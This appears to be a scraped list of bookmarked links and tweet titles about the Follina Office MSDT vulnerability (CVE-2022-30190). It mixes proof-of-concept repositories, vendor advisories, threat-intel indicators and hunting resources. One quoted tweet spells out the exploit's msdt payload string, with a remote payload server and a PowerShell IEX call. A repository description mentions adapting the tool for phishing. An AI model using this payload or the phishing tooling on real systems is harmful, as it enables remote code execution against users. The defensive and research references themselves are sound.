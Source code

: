 * GitHub - PwnC00re/PoC-CVE-2022-30190
* * https://t.co/Bci6gVBWJn
* Jinwook Kim on Twitter: "0-day [CVE-2022-30190] MS Offic RCE aka msdt follina Target = "http://<payload_server>/payload.html!" TargetMode = "External" IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../Windows/System32 https://t.co/Bci6gVBWJn https://t.co/hc2TcRoOQt" / Twitter
* * https://t.co/hc2TcRoOQt
* TCM Security (@TCMSecurity) / Twitter
* * https://twitter.com/TCMSecurity
* Follina RCE Exploitation – CVE-2022-30190 - TCM Security
* * https://t.co/uvIHdUi8QP
* TCM Security on Twitter: "Let's learn more about the newest exploit going around, Follina RCE - CVE-2022-30190. Joe Helle takes us through and shows us a couple ways this exploitation works and what you can do to remedy this current issue. https://t.co/uvIHdUi8QP #follina #cve #exploitation https://t.co/uXciZocib3" / Twitter
* * https://t.co/uXciZocib3
* Cyber Cave (@Cyber_Cave_sa) / Twitter
* * https://twitter.com/Cyber_Cave_sa
* Cyber Cave on Twitter: "انتشار استغلال ثغرة #CVE-2022-30190 والمعروفة ب #Follina وهي ثغرة تسمح بالتحكم والسيطرة عن بعد، و #تستهدف بعض الادوات في نظام #ويندوز (MSDT)، تستطيع #الحصول على #ادوات تساعدك في اكتشاف عمليات #استغلال الثغرة الان على منصة #CyberCave #الامن_السيبراني #CyberSecurity https://t.co/YjjR6LcGiH" / Twitter
* * https://t.co/YjjR6LcGiH
* Kimberly on Twitter: "#Follina CVE-2022-30190 Name: VIP Invitation to Doha Expo 2023.docx Submitted: 2022-06-01 URL: https://files.attend-doha-expo[.]com/inv.html Retrieves payload from 5.206.224[.233 https://t.co/RWJwThEBZ3" / Twitter
* * https://t.co/RWJwThEBZ3
* asim · GitHub Topics · GitHub
* * https://github.com/topics/asim
* LetsDefend (@LetsDefendIO) / Twitter
* * https://twitter.com/LetsDefendIO
* Jessie (@js_nyc) / Twitter
* * https://twitter.com/js_nyc
* GitHub - komomon/CVE-2022-30190-follina-Office-MSDT-Fixed: CVE-2022-30190-follina.py-修改版，可以自定义word模板，方便实战中钓鱼使用。
* * https://github.com/komomon/CVE-2022-30190-follina-Office-MSDT-Fixed
* Cisco Talos Intelligence Group - Comprehensive Threat Intelligence: Threat Source newsletter (June 2, 2022) — An RSA Conference primer
* * https://blog.talosintelligence.com/2022/06/threat-source-newsletter-june-2-2022.html
* Prevention, Hunting and Playbooks for MSDT Zero-Day (CVE-2022-30190) - Palo Alto Networks Blog
* * https://t.co/ONrWs4cfS2
* CVE-2022-30190: Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability “Follina” | FortiGuard Labs 
* * https://t.co/XPsgSs0EA7
* FortiGuard Labs (@FortiGuardLabs) / Twitter
* * https://twitter.com/FortiGuardLabs
* FortiGuard Labs on Twitter: "#FortiGuardLabs provides an analysis and assessment to date of CVE-2022-30190: MSDT RCE vulnerability “#Follina.” Learn more about this #vulnerability and how to take corrective action until Microsoft releases a patch. https://t.co/CeVQzSwkfs https://t.co/W1RnOaIoy7" / Twitter
* * https://t.co/W1RnOaIoy7
* CERT-UA
* * https://t.co/Ti0aBgzBGa
* CVE-2021-40444 and CVE-2022-30190 Exploit Detection: Cobalt Strike Beacon Delivered in a Cyber-Attack on Ukrainian State Bodies - SOC Prime
* * https://t.co/5pg1ZKnpF0
* Rebecca Rambar on Twitter: "Ukraine : Le CERT-UA avertit d'1 cyberattaque menée contre des organisations gouvernementales ukrainiennes utilisant le malware et les failles Cobalt Strike Beacon exploitant les vulnérabilités CVE-2021-40444 & CVE-2022-30190. https://t.co/c702ooJyjX https://t.co/JDJRMd7TDF" / Twitter
* * https://t.co/JDJRMd7TDF
* NVD - CVE-2022-30190
* * https://nvd.nist.gov/vuln/detail/CVE-2022-30190